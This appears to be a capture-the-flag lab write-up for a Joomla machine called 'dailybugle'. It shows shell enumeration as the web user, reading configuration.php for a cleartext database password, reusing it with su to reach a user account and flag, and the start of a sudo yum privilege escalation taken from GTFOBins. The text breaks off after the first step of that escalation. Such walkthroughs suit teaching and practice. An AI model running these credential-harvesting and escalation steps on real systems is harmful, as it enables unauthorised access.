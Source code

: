 ```bash
```
# User Flag
## Local Enumeration
```bash
bash-4.2$ whoami
apache
bash-4.2$ ls /home
jjameson
bash-4.2$ pwd; ls
/var/www/html
LICENSE.txt    cli                includes   media       tmp
README.txt     components         index.php  modules     web.config.txt
administrator  configuration.php  language   plugins
bin            htaccess.txt       layouts    robots.txt
cache          images             libraries  templates
bash-4.2$ cat configuration.php 
<?php
class JConfig {
...
public $dbtype = 'mysqli';
public $host = 'localhost';
public $user = 'root';
public $password = 'nv5uz9r3ZEDzVjNu';
public $db = 'joomla';
...
```
## Privesc to user
It will allow to login as `jjameson` user:
```bash
bash-4.2$ su jjameson # nv5uz9r3ZEDzVjNu
Password: 
[jjameson@dailybugle html]$
[jjameson@dailybugle ~]$ cd ~; cat user.txt 
27a260fe3cba712cfdedb1c86d80442e
```
# Root Flag
## Local Enumeration
```
[jjameson@dailybugle ~]$ sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
[jjameson@dailybugle ~]$ 
```
## Privesc to root
`yum` will be used to get higher privileges.
https://gtfobins.github.io/gtfobins/yum/ will help us.
```bash
[jjameson@dailybugle ~]$ TF=$(mktemp -d)
```